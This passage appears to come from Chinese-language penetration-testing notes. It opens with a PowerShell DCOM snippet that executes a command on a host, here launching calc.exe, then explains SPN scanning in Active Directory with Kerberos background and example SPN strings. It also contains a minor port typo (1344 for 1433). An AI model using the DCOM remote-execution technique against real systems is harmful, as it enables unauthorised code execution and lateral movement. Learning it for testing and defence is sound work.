       ```powershell
      $com = [Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39', "127.0.0.1")
      $obj = [System.Activator]::CreateInstance($com)
      $item = $obj.item()
      $item.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "C:\Windows\System32",$null,0)
      ```

      正常来说可以在目标主机看到运行的进程，用户为Administrator。

### SPN在域环境中的应用

WIndows域环境时基于微软的活动目录服务工作的，它在网络系统环境中 将物理位置分散、所属部门不同的用户进行分组，集中资源，有效地对资源访问控制权限进行细粒度的分配，提高了分配管理的便利性。

微软给域内的每种资源分配了不同的服务主题名称（Service Principal Name, SPN）。

#### SPN扫描

##### 相关概念

在使用Kerberos协议进行身份验证的网络中，必须在内置账号（NetworkService、LocalSystem）或者用户账号下为服务器注册SPN。对于内置账号，SPN将自动进行注册。但是，如果在域用户账号下运行服务，则必须为要使用的账号手动注册SPN。因为域坏境中的每台服务器都需要在Kerberos身份验证服务中注册SPN，所以攻击者会直接向域控发送查询请求，获取其需要的服务的SPN，从而知晓需要使用的服务资源在哪台机器上。

Kerberos身份验证使用SPN将服务实例与服务登陆账号关联起来。如果域中的计算机上安装了多个服务实例，那么每个实例都必须有自己的SPN。如果客户端可能使用多个名称进行身份验证，那么给定的服务实例可以有多个SPN。例如，SPN总是包含运行的服务实例的主机名称，所以，服务实例可以为其所在主机的每个名称或别名注册一个SPN。

根据Kerberos协议，用户输入自己的账号和密码登陆活动目录时，域控会对账户和密码进行验证，验证通过后，KDC会将服务授权的票据发送给用户。

以一个例子说明。

当用户需要访问MSSQL服务时，系统会以当前用户身份向域控查询SPN为`MSSQL`的记录。找到该SPN记录后，用户会再次与KDC通信，将KDC发放的TGT作为身份凭据发送给KDC，并将需要访问的SPN发送给KDC。KDC中的AS对TGT解密。确认无误后，由TGS将一张允许访问该SPN所对应的服务的票据和该SPN所对应的服务的地址发送给用户。用户使用该票据即可访问MSSQL服务。

SPN命令的格式如下：

```powershell
SPN = serviceclass "/" hostname [":"port] ["/" servicename]
```

* serviceclass：服务组件的名称
* hostname：以`/`与后面的名称分割，是计算机的FQDN（全限定域名）
* port：以冒号分割，后面的内容为端口号
* servicename：一个字符串，可以是服务的专有名称（DN）、ObjectGuid、Internet主机名或全限定域名

##### 常见SPN服务

MSSQL服务的实例代码如下：

```powershell
MSSQLSvc/computer1.pentest.com:1433
```

* MSSQLSvc：服务组件的名称
* computer1.pentest.com：主机名computer1，域名为pentest.com
* 1433：端口号为1344

Exchange服务实例代码如下：

```powershell
exchangeMDB/EXCAS01.hackme.com
```
